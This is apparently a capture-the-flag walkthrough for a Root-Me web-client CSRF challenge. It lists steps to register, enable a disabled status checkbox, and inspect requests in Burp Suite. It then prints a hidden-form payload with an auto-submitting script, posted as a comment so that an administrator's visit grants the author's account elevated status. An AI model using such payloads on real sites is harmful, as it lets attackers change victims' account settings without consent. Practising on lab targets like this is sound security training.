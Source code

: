 1. Open the [task](http://challenge01.root-me.org/web-client/ch22/index.php)
2. Register an account [ http://challenge01.root-me.org/web-client/ch22/index.php?action=register ]
3. Log in to your account [ http://challenge01.root-me.org/web-client/ch22/index.php?action=login ]
4. Go to the profile page [ http://challenge01.root-me.org/web-client/ch22/index.php?action=profile ]
5. Make the checkbox visible through the developer tool

It was: <input type="checkbox" name="status" disabled="">

Become: <input type="checkbox" name="status">

6. Launch Burp Suite::Proxy::HTTP history
7. Click the Submit button and check the request data
8. Go to the Contact tab [ http://challenge01.root-me.org/web-client/ch22/index.php?action=contact ]
9. Enter in the email field: "username" + "@mail"
10. Enter the following into the Comment form:

<form name="csrf" action="http://challenge01.root-me.org/web-client/ch22/?action=profile" method="post" enctype="multipart/form-data"> 
<input type="hidden" name="username" value="YOUR_USERNAME"> 
<input type="hidden" name="status" value="on"> 
</form> 
<script>document.csrf.submit()</script>

11. If everything is done correctly, you will see the following message: Your message has been posted. The administrator will contact you later.
12. Checking the Private tab [ http://challenge01.root-me.org/web-client/ch22/index.php?action=private ], you can get a flag